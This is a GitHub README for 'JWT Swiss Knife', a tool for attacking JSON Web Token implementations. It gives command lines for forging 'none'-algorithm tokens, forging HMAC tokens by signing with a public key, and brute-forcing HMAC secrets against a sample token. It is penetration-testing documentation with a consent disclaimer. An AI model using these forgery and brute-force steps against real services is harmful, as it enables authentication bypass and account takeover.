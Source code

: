# JWT Swiss Knife
A tool for conducting different types of attacks against JWT
Credit to Tim Mclean for the great blogpost about JWT vulnerabilities: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ 

# Installation
pip install -r requirements.txt

# Sample Usage
Method 1 - Create a 'none' token:

./jwt_sk.py -method 1 -body '{"userEmail":"oz@cyberint.com", "rememberMe":false, "exp":1473240911, "timestamp":"06-Sep-2016 05:35:11:774"}'

Method 2 - Create an 'HMAC' signed token using public key:

./jwt_sk.py -method 2 -body '{"userEmail":"oz@cyberint.com", "rememberMe":false, "exp":1504676111, "timestamp":"06-Sep-2017 05:35:11:774"}' -pk ~/Desktop/pubkey.pem -alg HS512

Method 3 - Bruteforce HMAC secret:

./jwt_sk.py -method 3 -jwtoken "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0aW1lc3RhbXAiOiIwNi1TZXAtMjAxNyAwNTozNToxMTo3NDQiLCJ1c2VyRW1haWwiOiJvekBjeWJlcmludC5jb20iLCJleHAiOjE1MDQ2NzYxMTF9.qkBZ_mjWCLOBUfmdcMR0e0MEaEuU8oykFALea3AfLpQ" -secrets ./passlist -alg HS256

# Screenshots

![Alt text](https://s29.postimg.org/py9b9o78n/Capture.png)

# Disclaimer

This tool is only for testing and academic purposes and can only be used where strict consent has been given.
Do not use it for illegal purposes.
